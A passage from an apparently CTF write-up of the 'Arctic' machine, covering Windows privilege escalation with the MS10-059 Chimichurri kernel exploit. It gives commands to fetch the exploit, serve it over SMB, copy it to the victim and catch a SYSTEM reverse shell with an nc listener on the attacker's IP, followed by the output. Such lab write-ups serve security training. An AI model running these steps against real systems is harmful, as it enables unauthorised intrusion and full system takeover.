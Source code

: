 Looking at those, as I’m not as interested in MSF modules to start, and as IE is likely to require user interaction, ones to look into are:

-   MS10-047 [E]
-   MS10-059 [E]
-   MS10-061 [M]
-   MS10-073 [M]
-   MS11-011 [E]
-   MS13-005 [M]

And i will ingore [M] exploit which needs metasploit to run. So i just try MS10-059.

## MS10-059

```bash
# we will download MS10-059 from this website
https://github.com/egre55/windows-kernel-exploits/tree/master/MS10-059:%20Chimichurri
# download the binary
https://github.com/egre55/windows-kernel-exploits/blob/master/MS10-059:%20Chimichurri/Compiled/Chimichurri.exe
```

I downloaded the binary (while it’s never a great idea to run exes downloaded directly from the internet, for a CTF environment, I’m willing to run it), and ran `smbserver.py share .` to share my current directory.

```bash
# host
smbserver.py share . 
```

![[Arctic-19.png]]

Then in my shell, I copied it to Arctic:

```bash
# victim
net use \\10.10.14.14\share
copy \\10.10.14.14\share\Chimichurri.exe .
# Host
nc -nlvp 1234
# run it from victim machine to connect host port
Chimichurri.exe 10.10.14.14 1234
```

```txt
C:\ColdFusion8\runtime\bin>net use \\10.10.14.14\share
net use \\10.10.14.14\share
Local name        
Remote name       \\10.10.14.14\share
Resource type     Disk
Status            Disconnected
# Opens           0
# Connections     1
The command completed successfully.

C:\ColdFusion8\runtime\bin>copy \\10.10.14.14\share\Chimichurri.exe .
copy \\10.10.14.14\share\Chimichurri.exe .
Overwrite .\Chimichurri.exe? (Yes/No/All): Yes
Yes
        1 file(s) copied.

C:\ColdFusion8\runtime\bin>Chimichurri.exe 10.10.14.14 1234
Chimichurri.exe 10.10.14.14 1234
/Chimichurri/-->This exploit gives you a Local System shell <BR>/Chimichurri/-->Changing registry values...<BR>/Chimichurri/-->Got SYSTEM token...<BR>/Chimichurri/-->Running reverse shell...<BR>/Chimichurri/-->Restoring default registry values...<BR>
```